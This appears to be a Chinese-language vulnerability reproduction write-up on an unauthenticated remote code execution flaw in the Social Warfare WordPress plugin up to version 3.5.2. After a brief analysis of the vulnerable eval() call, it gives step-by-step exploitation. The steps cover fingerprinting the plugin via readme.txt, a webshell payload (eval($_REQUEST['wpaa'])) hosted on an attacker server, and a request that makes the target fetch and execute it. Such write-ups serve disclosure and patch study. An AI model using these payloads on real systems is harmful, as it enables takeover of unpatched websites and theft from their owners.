

WordPress Plugin - Social Warfare\<=3.5.2 RCE
=============================================

一、漏洞简介
------------

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在\<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP\_Database\_Migration.php文件中有一处eval()函数，该函数将file\_get\_contents()读取的文件内容当做PHP代码执行导致RCE。

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

    http://0-sec.org/wp-content/plugins/social-warfare/readme.txt

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

    <pre>eval($_REQUEST['wpaa'])</pre>

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

    http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo();

image
